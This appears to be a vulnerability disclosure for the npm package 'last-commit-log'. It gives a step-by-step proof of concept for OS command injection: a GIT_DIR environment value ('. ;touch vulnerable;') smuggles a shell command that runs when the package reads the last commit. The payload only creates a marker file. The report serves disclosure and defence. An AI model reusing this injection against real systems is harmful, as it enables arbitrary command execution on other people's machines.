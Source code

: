 # Description

`last-commit-log` is vulnerable to `OS Command Injection`.

# Proof of Concept
1. Install the package `npm i last-commit-log`
2. Create the following PoC file:
```
// poc.js
const LCL = require('last-commit-log');
const lcl = new LCL('.');
lcl
.getLastCommit()
.then(commit => console.log(commit));
```
3. Export malicious GIT_DIR string `export GIT_DIR=". ;touch vulnerable;"`

4. Check the files in the current directory using `ls` command.
```
poc.js
```

5. Run `node poc.js`

6. Check the Output using `ls` command
```
poc.js  vulnerable
```
